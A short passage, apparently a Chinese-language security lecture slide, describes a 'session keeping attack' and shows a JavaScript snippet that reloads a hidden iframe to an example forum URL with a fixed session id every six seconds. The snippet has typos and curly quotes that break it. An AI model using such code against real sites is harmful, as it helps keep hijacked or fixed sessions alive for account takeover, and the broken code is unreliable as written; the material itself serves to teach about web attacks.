

（5）会话保持攻击
下面一段代码，能保持Session始终有效。
<script>
var url=”http://bbs.example.com/index.php?sid=1”;
Window.setInterval(“keepsid()”,6000);//按照指定的周期（以毫秒计）来调用函数或计算表达式
Fuction keepsid()
{
   Document.getElementById(“a1”).src=url+”&time=”+Math.random();
}
</script>
<iframe id=”a1” src=””></iframe>
IFrame内联框架被用来在当前 HTML 文档中嵌入另一个文档
其原理就是不停地刷新页面，以保持Session不过期